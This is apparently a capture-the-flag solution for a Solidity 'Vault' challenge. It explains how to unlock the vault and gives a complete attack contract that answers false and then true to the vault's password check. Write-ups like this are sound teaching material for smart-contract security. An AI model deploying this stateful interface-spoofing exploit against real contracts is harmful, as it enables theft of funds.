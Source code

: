# Vault

## Solution :

To validate this challenge, the user needs to open the bank, so he needs to make `open = true`.

To do that, he needs to create an attack contract with a function which is the same as the one is the interface `Bank`.

This function needs to return `false` the first time, which is called and `true` the second time.

Finally, he needs to call with the attack contract the `unlockVault()` function with a non specific params.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/intermediateChalls/Vault.sol";

contract attackVault {
	Vault originalContract;
	uint public i = 0;

	constructor(address _originalContract) public {
		originalContract = Vault(_originalContract);
	}

	function isGoodPassword(uint _password) external returns (bool) {
		if (i == 0) {
			i = 1;
			return false;
		}
		return true;
	}

	function exploit() public {
		originalContract.unlockVault(10);
	}
}
```